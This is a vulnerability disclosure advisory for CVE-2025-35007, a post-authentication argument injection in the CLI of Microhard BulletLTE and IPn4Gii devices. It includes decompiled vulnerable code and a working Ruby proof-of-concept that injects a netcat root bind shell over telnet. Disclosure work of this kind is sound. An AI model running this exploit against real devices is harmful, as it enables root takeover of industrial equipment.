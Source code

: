 ```yaml
---
title: CVE-2025-35007
aliases:
  - /cves/CVE-2025-35007.html
---
```


# CVE-2025-35007: Microhard Bullet-LTE and IPn4Gii AT+MFRULE Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35007] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFRULE command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFRULE which is used for querying/configuring the firewall rules in general. User input supplied to the cmd_firewall_rule() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():


```
undefined4 cmd_firewall_rule(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
                            if (iVar1 != 0) {
                              iVar1 = atoi(param_3[3]);
                              iVar7 = atoi(param_3[4]);
                              iVar4 = atoi(param_3[5]);
                              iVar5 = atoi(param_3[9]);
                              iVar6 = atoi(param_3[0xe]);
                              sprintf(acStack_21a0,
                                      "sh /etc/m_cli/atcmd_sh_firewall.sh %s %s %s %s %s %s %s %s %s  %s %s %s %s %s"
                                      ,"rule_set_one",acStack_2220,auStack_1e90 + iVar1 * 0x84,
                                      auStack_201c + iVar7 * 0x84,acStack_19ec + iVar4 * 0x84,
                                      param_3[6],param_3[7],param_3[8],acStack_19ec + iVar5 * 0x84,
                                      param_3[10],param_3[0xb],param_3[0xc],param_3[0xd],
                                      auStack_1c80 + iVar6 * 0x84);
                              iVar1 = FUN_0000e9a0(param_1,acStack_21a0,acStack_2120,0x100);
                              if (iVar1 == 0) {
                                pcVar8 = "ERROR";
                                goto LAB_0002b504;
                              }
                            }
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;
  
  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MFRULE command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35007] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfrule=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35007] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132 
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35007]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35007]: https://www.cve.org/CVERecord?id=CVE-2025-35007
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware

